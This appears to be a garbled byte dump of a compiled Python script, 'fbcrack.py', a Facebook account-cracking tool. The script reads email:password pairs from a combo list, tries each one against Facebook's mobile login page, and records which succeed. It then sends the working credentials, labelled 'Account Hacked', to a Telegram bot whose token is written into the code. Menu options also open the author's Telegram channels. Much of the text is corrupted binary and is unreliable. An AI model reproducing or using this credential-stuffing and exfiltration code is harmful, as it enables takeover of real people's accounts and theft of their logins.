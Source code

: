 a

    âh³`Ç  ã                   @   sì  d dl Z d dlZd dlZdd Zdd Ze  d¡ ed edZd dl	Z	ed	Z
e
d
krredkrred ej ned
 e  e  e  d¡ dZdZ
dZdZdZdZeddZeddZe  d¡ edZedkràe  d¡ edkròe  d¡ edkre  d¡ edkre  d¡ e  d¡ ed e  d¡ ed Zed!ksRed"kr`d#Zed$Zn e  d¡ ed% e  d&¡ ee
d' e d( Zed) d*Zd+d,d-Zeed. ¡ ZeD ]$Ze ¡  d/¡Z e d  e d0 d1Z!ej"eee!d2j#Z$d3e$v rd4 %eee d  e d0 ¡Z&e 'e&¡ n¾d5e$v rxeed6 e e d   e
 d/ e e d0   e (d6e d   d/ e d0  d7 ¡ ndd8e$v r°ee
d9 e e d   e
 d/ e e d0   n,ee
d9 e e d   e
 d/ e e d0   q¸ed) dS ):é    Nc                   C   s   t  d¡ d S )Nú!xdg-open https://t.me/sultani1122)ÚosÚsystem© r   r   ú/sdcard/afg/fbcrack.pyÚwa   s    r   c                  C   s    t j} tj| | gt j¢R   d S )N)ÚsysÚ
executabler   ÚexeclÚargv)Zngulangr   r   r   Úrestart   s    r   ÚclearaÇ  
[1;96m ------------------------
##     ##    ##    ## #### ##    ##  ######   
###   ###    ##   ##   ##  ###   ## ##    ##  
#### ####    ##  ##    ##  ####  ## ##        
## ### ##    #####     ##  ## ## ## ##   #### 
##     ##    ##  ##    ##  ##  #### ##    ##  
##     ##    ##   ##   ##  ##   ### ##    ##  
##     ##    ##    ## #### ##    ##  ######   

--------------------------------------------------
 Author      : Hashmat Sadat
 YouTube     : Sadat Tech
 Telegram    : https://t.me/sadattech
--------------------------------------------------
[1;97m 
                           z!          [1;93mENTER USERNAME: z!          [1;94mENTER PASSWORD: ZSadatZHashmatzlogin successfullzU
[1;96m ------------------------
 [1;32m <     >
 [1;96m ------------------------
z[95mz[92mz[93mz[91mz[96mz[0mzok.txtÚwzcp.txta#  
[1;96m ------------------------
##     ##    ##    ## #### ##    ##  ######   
###   ###    ##   ##   ##  ###   ## ##    ##  
#### ####    ##  ##    ##  ####  ## ##        
## ### ##    #####     ##  ## ## ## ##   #### 
##     ##    ##  ##    ##  ##  #### ##    ##  
##     ##    ##   ##   ##  ##   ### ##    ##  
##     ##    ##    ## #### ##    ##  ######   

--------------------------------------------------
 Author      : Hashmat Sadat 
 YouTube     : Sadat Tech
 Telegram    : https://t.me/sadattech
--------------------------------------------------
[1;97m 
--------------------------------------------------

[1;96m ------------------------
 [1;93m <   CREATED BY Hashmat Sadat>
 [1;96m ------------------------
[1;97m 
          [1;92m[1] START FB ACCOUNT CHECKER
          [1;92m[2] COMBO LIST MACKER
          [1;92m[3] my telegram chanel
          [1;92m[4] my Telegram ID

[1;91m[+] Please Choice Option>>[1;92mÚ3r   Ú2zpython3 combo.pyÚ4z&xdg-open https://t.me/sadattechÚ1aY  
[1;96m ------------------------
##     ##    ##    ## #### ##    ##  ######   
###   ###    ##   ##   ##  ###   ## ##    ##  
#### ####    ##  ##    ##  ####  ## ##        
## ### ##    #####     ##  ## ## ## ##   #### 
##     ##    ##  ##    ##  ##  #### ##    ##  
##     ##    ##   ##   ##  ##   ### ##    ##  
##     ##    ##    ## #### ##    ##  ######   

--------------------------------------------------
 Author      : Hashmat Sadat
 YouTube     : Sadat Tech
 Telegram    : https://t.me/sadattech
--------------------------------------------------
[1;97m 
--------------------------------------------------

[1;96m ------------------------
 [1;93m <   CREATED BY Hashmat Sadat   >
 [1;96m ------------------------
[1;32m 
z3[+] Send Users To Telegram bot (@BotFather)[Y/y] : ÚyÚYz.2010450571:AAHtMV6JS6ZfiC8bkLo439qwune_5o9OZak[1;32m [+] Enter Telegram ID (@userinfobot): [1;97m aÞ  
[1;96m ------------------------
##     ##    ##    ## #### ##    ##  ######   
###   ###    ##   ##   ##  ###   ## ##    ##  
#### ####    ##  ##    ##  ####  ## ##        
## ### ##    #####     ##  ## ## ## ##   #### 
##     ##    ##  ##    ##  ##  #### ##    ##  
##     ##    ##   ##   ##  ##   ### ##    ##  
##     ##    ##    ## #### ##    ##  ######   

--------------------------------------------------
 Author      : Hashmat Sadat
 YouTube     : Sadat Tech
 Telegram    : https://t.me/sadattech
--------------------------------------------------
[1;97m 
--------------------------------------------------z"xdg-open https://t.me/sadattechz[!]z9 Enter the  your combo list file (Hashmat.txt) :[1;97m zq
[1;96m ------------------------
 [1;32m <   CREATED BY Hashmat Sadat   >
 [1;96m ------------------------
z%https://mobile.facebook.com/login.phpz<Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76Bzen-US,en;q=0.5)z
User-AgentzAccept-LanguageÚrú:é   )ZemailÚpass)ÚheadersÚdataZ
xc_messageu  https://api.telegram.org/bot{}/sendMessage?chat_id={}&text=.☆. Hi Hashmat New fb Account Hacked 100%
-----------------------------------------
 ☆ email : {}
 ☆ pass : {}
-----------------------------------------
.☆.CHANEL :- @sadattech  .☆. :-  Channel 2: @MrBlackCYBERz$checkpointSubmitButton-actual -buttonz
[CHECKPOINT] Ú
Zlogin_errorz[NOT FOUND] ))r   Zrequestsr   r   r   r   ÚprintÚinputÚuserZgetpassZsandiÚexitZHEADERZGREENZYELLOWZREDZCYANZRESETÚopenZliveZchÚlibZteleZTKZIDZempasZlinkr   Ú	readlinesÚlistÚstripÚsplitÚmer   ZpostÚtextZshotÚformatZAccountÚgetÚwriter   r   r   r   Ú<module>   s   














þ
þ

,$
.0
